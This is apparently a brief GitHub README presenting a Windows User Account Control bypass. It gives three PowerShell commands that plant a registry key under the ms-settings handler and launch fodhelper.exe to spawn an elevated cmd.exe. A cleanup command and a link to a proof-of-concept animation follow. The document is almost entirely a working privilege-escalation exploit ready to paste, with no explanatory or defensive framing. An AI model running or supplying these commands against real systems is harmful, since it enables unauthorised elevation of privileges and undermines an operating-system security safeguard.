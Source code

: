 # Bypass Windows UAC Technique

## Bypass UAC with 3 Commands
```
#spawn cmd.exe process 
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Value "cmd.exe" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force

#start fodhelper.exe to execute the registry
Start-Process "C:\Windows\System32\fodhelper.exe"
```
### Cleanup the registry value 
```
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```

![alt text](poc/poc.gif)
